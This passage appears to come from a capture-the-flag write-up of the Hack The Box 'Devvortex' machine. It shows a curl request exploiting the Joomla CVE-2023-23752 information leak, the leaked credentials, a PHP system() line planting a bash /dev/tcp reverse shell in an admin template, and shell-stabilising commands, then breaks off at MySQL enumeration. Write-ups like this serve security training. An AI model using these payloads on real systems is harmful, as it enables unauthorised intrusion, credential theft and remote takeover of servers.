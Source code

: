 - /administrator immediately caught my eyes, and it has a joomla login page. I researched about joomla and found these features from [wikipedia](https://en.wikipedia.org/wiki/Joomla).
    - Joomla is a framework (CMS)
    - written in PHP
    - uses Object-Oriented Programming technique
    - stores data in Structured Query Language (MySQL) database.

    So, I am pretty sure that my knowledge of PHP and MySQL may come in handy any time 😉.

- tried logging in fuzzing different default credentials for a moment, but it was useless. So i googled the ways to bypass the joomla authentication and luckily I came through [CVE-2023-23752](https://vulncheck.com/blog/joomla-for-rce) in vulncheck.com. 

- following the direction I tried exploiting the vulnerability and got the credentials.

    - ```curl -v http://dev.devvortex.htb/api/index.php/v1/config/application?public=true```

    - ![api endpoint](https://raw.githubusercontent.com/cyb3ritic/images/refs/heads/master/htb/machines/devvortex/api_endpoint.jpg)

    - user: lewis
    - password: P4ntherg0t1n5r3c0n##

- Using the credentials I got logged in.
    - ![logged in](https://raw.githubusercontent.com/cyb3ritic/images/refs/heads/master/htb/machines/devvortex/loggedin.jpg)
Now my first intension was to get some place where I can inject some payloads to get get remode code execution(RCE). On navigating through different sections in the page, I came to a index.php file in system -> administrator templates -> atum files -> index.php. That php file could be used to run my payload and get a reverse shell. So I included a bash -i reverse shell command in the login.php file using system command and fired up my netcat listener on port 1234.

`system('bash -c "bash -i >& /dev/tcp/10.10.14.151/1234 0>&1"');`

![payload input section](https://raw.githubusercontent.com/cyb3ritic/images/refs/heads/master/htb/machines/devvortex/payload_input_section.jpg)

A reverse shell will land on your netcat after you save the changes.
![reverse shell](https://raw.githubusercontent.com/cyb3ritic/images/refs/heads/master/htb/machines/devvortex/reverse_shell.jpg).

Let's first stabilize the shell using the following command:
```bash
    python3 -c 'import pty;pty.spawn("/bin/bash")’
    export TERM=xterm

    press Ctrl + Z

    stty raw -echo; fg
```

Now,let's go for user flag in /home/logan/user.txt . But we don't have permission to read that file since the user.txt belongs to logan and we are logged in as lewis. So, we need some horizontal previlege escalation. Since from the research about joomla, we knew that it stored the data in mySQL database and from api endpoint we have the mysql credentials of lewis.

`mysql -u lewis -p`

after this command , a password field is prompted is and entering the password we get logged into lewis's account. Using SQL knowledge, lets explore the contents....
